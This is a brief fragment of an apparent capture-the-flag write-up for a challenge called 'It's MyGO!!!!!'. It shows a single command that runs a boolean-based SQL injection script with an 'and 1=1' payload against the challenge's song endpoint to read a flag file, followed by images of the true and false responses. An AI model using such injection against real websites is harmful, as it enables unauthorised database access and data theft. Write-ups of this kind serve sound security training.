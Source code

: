 ### It's MyGO!!!!!

- boolean sql injection

    ```
    python2 mysql-truefalse.py  -u "http://chals1.ais3.org:11454/song?id=4 and 1=1" -f "/flag"
    ```

- 1=1
![](/images/2024/05/r11I0ckVR.png)
- 1=2
![](/images/2024/05/BydI0cJ4C.png)